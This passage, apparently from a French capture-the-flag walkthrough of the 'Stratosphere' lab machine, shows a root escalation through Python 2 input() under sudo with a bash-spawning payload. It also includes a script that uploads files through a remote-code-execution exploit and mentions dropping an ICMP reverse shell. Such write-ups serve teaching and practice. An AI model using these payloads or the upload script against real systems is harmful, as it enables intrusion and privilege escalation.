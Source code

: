 Ça semblait un peut gros d'avoir à résoudre un exercice style [jeopardy](https://en.wikipedia.org/wiki/Capture_the_flag) après être passé par des étapes que l'on aurait pu croiser dans [la réalité vraie](https://www.youtube.com/watch?v=QwVK_QBdK2A).  

Ici, on voit clairement la présence d'*env\_reset* dans la ligne sudo donc pas de bypass via une variable d'environnement possible (*PYTHONPATH*, *PYTHONSTARTUP*, etc).  

Il est temps de se pencher sur le contenu du code et avec mon background Python j'ai rapidement tilté sur l'utilisation de *input()* [qui est considéré non-sûr via Python2](https://stackoverflow.com/questions/31175820/simple-explanation-of-security-issues-related-to-input-vs-raw-input), ou devrais-je plutôt dire [c'est une feature expliquée noir sur blanc](https://docs.python.org/2.7/library/functions.html#input).  

```plain
richard@stratosphere:~$ sudo python2 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("/bin/bash -p")
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
root@stratosphere:/home/richard# cd /root
root@stratosphere:~# cat root.txt
d41d8cd98f00b204e9800998ecf8427e
root@stratosphere:~# exit
exit
Traceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 8, in question
    md5.update(q1.encode())
AttributeError: 'int' object has no attribute 'encode'
```

Bonux
-----

Pour obtenir un shell plus tôt sur ce CTF on aurait pu déposer d'un shell ICMP [comme celui-ci](https://github.com/inquisb/icmpsh). Il n'en reste pas moins qu'il faut être capable de déposer un fichier sur la machine.  

J'ai écrit un script qui effectue cette opération en encodant un fichier en base64 et l'envoi ligne par ligne sur la machine cible avant de le décoder :  

```python
import os
import sys

filename = sys.argv[1]
dest = "/tmp/{}".format(os.path.basename(filename))

os.system("rm /tmp/yolo 2>/dev/null; base64 '{}' > /tmp/yolo".format(filename))
os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "rm /tmp/yolo 2>/dev/null; touch /tmp/yolo"')
with open("/tmp/yolo") as fd:
    for line in fd:
        line = line.strip()
        os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "echo {} >> /tmp/yolo"'.format(line))

os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "base64 -d /tmp/yolo > {}"'.format(dest))
```
